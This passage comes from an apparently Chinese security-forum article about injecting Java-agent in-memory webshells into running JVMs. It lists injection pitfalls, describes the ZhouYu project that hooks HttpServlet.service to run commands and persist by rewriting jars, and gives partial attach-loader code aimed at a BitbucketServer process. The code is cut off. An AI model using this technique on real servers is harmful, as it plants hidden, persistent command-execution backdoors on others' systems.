 重新注入，发现已经成功修改运行中的函数： ![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-3afcaae706136e76f8f6e2bc867e961cce46506b.png)

几个坑点
----

1. 在windows下偶尔会遇到 VirtualMachine.list搜索不到目标进程的情况，多试几次就能找到
2. 使用arthas诊断会影响注入程序的Agent，如下图： ![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-db66817ecd5049c458bb978b6bcd123c7c02f7e6.png)
3. transformer对每个函数都会触发，应当做好判断，若不是要修改的类应该返回原本的字节码，如下 ![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-03a59394e9f64f1150127621b606a019b71bbb16.png)

0x05 实战使用
=========

内存马项目的demo还是挺多的，看了一下完整度比较高的有<https://github.com/threedr3am/ZhouYu>，兼容绝大部分的场景。

简单看一下代码，主要是hook了javax.servlet.http.HttpServlet的service方法：

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-2dc327ec6579fdf15f6f21d6903860212d9e7af9.png)

很多内存马都是基于tomcat，hook的是dofiler方法，如<https://github.com/safe6Sec/MemoryShell/blob/master/agent/src/com/demo/agent/Main.java>，不具备通用性。

ZhouYu实现的效果是将这段执行命令的代码注入所有的http请求之前：

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-57bcd71494310291ab47f7a1c1e60a0b5864ff01.png)

同时会重写jar包，达到持久化注入内存马的效果：

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-26d31db838828b788c4e19bd51f072ee84baedab.png)

实战注入
----

在windows下打包编译后在linux运行报错：

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-94839022fe732aed2b7ba329af0e95cffe662c48.png)

看起来是加载器的问题，我们改用之前的加载器在目标编译：

import com.sun.tools.attach.VirtualMachine;  
import com.sun.tools.attach.VirtualMachineDescriptor;

import java.io.File;  
import java.util.List;

public class Attach {

public static void main(String\[\] args) throws Exception {

VirtualMachine vm;  
List vmList;

String agentFile = new File("/agent-1.0-SNAPSHOT.jar").getCanonicalPath();  
System.out.println(agentFile);  
try {  
vmList = VirtualMachine.list();  
for (VirtualMachineDescriptor vmd : vmList) {  
System.out.println(vmd.displayName());  
if (vmd.displayName().contains("BitbucketServer") || "".equals(vmd.displayName())) {  
vm = VirtualMachine.attach(vmd);
